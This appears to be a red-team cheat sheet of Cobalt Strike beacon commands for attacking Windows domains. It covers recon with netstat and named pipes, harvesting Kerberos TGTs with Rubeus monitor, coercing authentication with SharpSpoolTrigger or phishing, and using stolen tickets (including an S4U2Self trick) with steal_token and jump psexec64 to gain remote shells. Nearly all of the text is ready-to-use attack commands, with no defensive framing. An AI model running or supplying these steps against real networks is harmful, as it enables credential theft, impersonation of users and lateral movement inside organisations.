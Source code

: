 # Commands Cheat Sheet



{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/command-control/cobalt-strike/" %}





## Windows Command Line tools

### Debugging & Helper commands.

#### View error message

```powershell
[-] could not upload file: 32 - ERROR_SHARING_VIOLATION
C:\>net helpmsg 32
The process cannot access the file because it is being used by another process.
```

### Recon & Enumeration (Windows)

#### List named pipes (SMB)

```powershell
PS C:\> ls \\.\pipe\
```

#### tcp connections

```powershell
PS> netstat -anop tcp
```

```powershell
PS> netstat -anop tcp | findstr 1337
```



## Kerberos Tickets

### Extract TGT's from compromised host

#### Rubeus

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe monitor /interval:10 /nowrap
beacon> jobkill
```

### Request NetOnly Kerberos Ticket

#### Rubeus

Below will open a command prompt with the NetOnly ticket. We can then use steal\_token \<PID> and impersonate that user.

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly /
program:C:\Windows\System32\cmd.exe /ticket<user-ticket>
```

## Coerce Host Authentication

If we compromised a host, we can try to force an authentication attempt or phish a user to harvest TGTs.

#### SharpSpoolTriggers

```
beacon> execute-assembly C:\Tools\Rubeus.exe monitor /interval:10 /nowrap
beacon> execute-assembly C:\Tools\SharpSpoolTrigger.exe <target-hostname> <compromised-hostname>
```

#### Phishing

We can use Rubeus monitor and send an email to trick a user into authenticating or clicking on a host. The interaction can be as simple as including `dir \\comromised-host`

### Using Kerberos Tickets to spawn remote shell

#### TGT

```sh
// Rubeus triage, dump or monitor to get a TGT.

beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly 
/program:C:\Windows\System32\cmd.exe /ticket:<remote host users TGT>

beacon> steal_token <PID>

beacon> jump psexec64 <remote host FQDN> smb
```



#### TGS (S4U2Self Trick)

```sh
// Rubeus triage, dump or monitor to get TGT
// Get TGS from TGT

Method 1: Get TGS, create sacrificial login, and steal token.

beacon> execute-assembly C:\Tools\Rubeus.exe s4u /impersonateuser:cfoxy /self 
/altservice:cifs/<host-FQDN> /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
/domain:ROTTA /username:cfoxy /password:FakePass /ticket:doIFyD[...]MuaW8=

beacon> steal_token <PID>

beacon> jump psexec64 <remote host FQDN> smb

------------------------------------------------------------------------------------------

Method 2: (Create sacrificial login session first and pass to s4u

beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
/domain:ROTTA /username:cfoxy /password:FakePass /ticket:doIFyD[...]MuaW8=

beacon> execute-assembly C:\Tools\Rubeus.exe s4u /impersonateuser:cfoxy /self 
/altservice:cifs/<host-FQDN> /user:dc-2$ /ticket:doIFuj[...]lDLklP /self /ptt

beacon> run klist
beacon> ls \\<remote-host-FQDN>
beacon> jump psexec64 <remote host FQDN> smb
```
